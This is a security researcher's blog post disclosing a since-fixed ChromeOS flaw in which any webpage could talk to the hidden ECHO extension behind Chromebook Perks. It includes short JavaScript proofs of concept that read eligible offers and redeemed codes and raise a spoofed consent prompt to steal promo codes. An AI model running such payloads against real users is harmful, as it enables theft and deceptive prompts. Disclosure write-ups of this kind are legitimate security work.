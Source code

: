 ```yaml
---
title: Abusing the Chromebook Perks System to Steal Promo Codes
date: 11/18/23
description: The Chromebook Perks page lets you redeem a few promo codes for your Chrome OS device, but how this page actually validates your device is rather interesting. Unfortunately for Google, they didn't make this system very secure.
url: https://ading.dev/blog/posts/echoanywhere.html
---
```


## Introduction:
If you've ever owned a personal Chromebook, then you've likely seen the [Chromebook Perks](https://www.google.com/chromebook/perks/) page. This site hosts a list of offers for your specific Chrome OS device, and lets you redeem some promo codes for various services. The interesting part about this page is how it actually validates whether or not you're using an eligible device. Unfortunately for Google, they didn't make this system very secure. 

## The Chromebook Perks System:
The Perks page isn't actually responsible for checking the available offers and redeeming them. Instead, this is handled by a hidden Chrome extension called ECHO, which the webpage can send data to. Just like QuickOffice, ECHO is a component extension, meaning that it's included with every Chrome OS installation. Also, it should be noted that all of this code is inside the proprietary portion of Chrome OS, which is probably why this bug was only discovered recently. 

The ECHO extension (sometimes called "Chrome Goodies") has access to a few private Chrome APIs, the most important one being `chrome.echoPrivate`. This API is responsible for the user consent prompt, as well as returning a list of valid offers. The extension also has the ability to retrieve hidden system information, such as the board name and the device ID, which is used for the validation aspect.

The method that the Perks page uses to communicate to the extension is rather shoddy. For whatever reason, instead of using the [`chrome.runtime`](https://developer.chrome.com/docs/extensions/reference/runtime/) API to handle this, Google opted to use an iframe. The page simply puts an extension page inside an iframe (`chrome-extension://kddnkjkcjddckihglkfcickdhbmaodcn/broker.html`) and posts messages to it via `iframe.postMessage`. Apparently this may have once been an intended feature, but who knows what they were thinking back in 2012 when most of this code was written.

After this, the `broker.html` page receives the posted data and passes it on to the extension's background page (this time using `chrome.runtime`). This is where the private APIs mentioned earlier are actually used. The response is passed back to `broker.html`, which finally returns this data to the Perks page by posting a message to its parent. 

## The Vulnerability:
Chrome only lets regular webpages iframe an extension page if that extension has explicitly allowed it. Normally, to reduce the chances of abuse, an extension would restrict access to only a few domains. The manifest of the ECHO extension, however, allows *any* webpage to access `broker.html`, via the [`web_accessible_resources`](https://developer.chrome.com/docs/extensions/mv2/manifest/web_accessible_resources/) property. Additionally, the ECHO extension never checks where the messages originate from, so any webpage is able to impersonate the Perks page and communicate with the extension.

What's puzzling about this bug is that the code for handing `chrome.runtime` messages is already present in the extension, so there's no reason to use the insecure iframe method. Also present in the Chrome Perks system [is code which utilizes](https://web.archive.org/web/20231116025133/https://www.gstatic.com/chromeos/offers/js/echo_provider_api.js) the removed [Web Intents](https://en.wikipedia.org/wiki/Web_Intents) API to communicate with the extension. This API only existed for six Chrome versions (18 to 23) before being removed in 2012. Even after this bug was fixed, the broken Web Intents code *still* exists in the current Chrome Perks page.

So what can an attacker do with this anyways?

## Possible Payloads:
Here's a minimal proof-of-concept which is able to post messages to the extension and get all the offers the current device is eligible for, as well as any previously redeemed promo codes.
```js
let iframe = document.createElement("iframe");
iframe.src = "chrome-extension://kddnkjkcjddckihglkfcickdhbmaodcn/broker.html";
iframe.style.display = "none";
iframe.onload = () => {
  iframe.contentWindow.postMessage({
    cmd: "getOfferInfo"
  }, "chrome-extension://kddnkjkcjddckihglkfcickdhbmaodcn");
};
window.addEventListener("message", console.log);
document.body.append(iframe);
```

A webpage is also able to trigger the user consent prompt for redeeming an offer. If the user hits allow, then the offer gets redeemed, with the malicious page receiving the stolen promo code. 
```js
iframe.contentWindow.postMessage({
  origin: "https://www.google.com/chromebook/perks/",
  serviceId: "minecraft.2023",
  serviceName: "free minecraft fr fr",
  requestNonce: String(Math.random()),
  isGroupType: false,
  isDebugMode: false,
  otcCode: false
}, "chrome-extension://kddnkjkcjddckihglkfcickdhbmaodcn");
```

Once this code is run, the following popup gets displayed:

![the fake user consent popup](/blog/assets/echoanywhere/echo_popup_small.png)

In this case, the `serviceId` determines which offer gets redeemed, with the `minecraft.2023` offer corresponding to the [free Minecraft](https://chromeunboxed.com/chromebook-perk-minecraft-realms) promotion happening right now. Once the user hits the "allow" button, the offer will be redeemed, and the malicious page can see the returned promo code. 

The service name can also be set to any string, which will influence what is shown in the dialog. If this is set to a long enough string, the "wants to check if you are using an eligible Chrome OS device" part of the dialog disappears. This dialog is also able to block all inputs to the browser window, which can be used for a denial-of-service attack.

## Conclusion:
I reported this vulnerability to Google on May 6th, 2023. It was immediately classified as P1/S1 (high priority, high severity), although it would take until August 10th until it would finally be fixed. Shortly after the bug was marked as fixed, it was tagged as `reward-topanel`, which meant that it was headed to the [VRP panel](https://bughunters.google.com/about/rules/5745167867576320/chrome-vulnerability-reward-program-rules) to have a reward amount determined. It's been over 90 days since this happened, so I guess they forgot about it or something.

You can take a look at the original [bug report](https://bugs.chromium.org/p/chromium/issues/detail?id=1443214) if you want, and here's a link to my [final POC](https://local.ading.dev/echoanywhere/).

Anyways, it turns out that if you still ship legacy proprietary code from 2012, large security issues will show up as soon as someone actually takes a good look at it. Sure enough, other portions of the ECHO system turned out to vulnerable as well, as [Bypassi](https://blog.bypassi.com/) would discover soon after. But that's a story for another day.
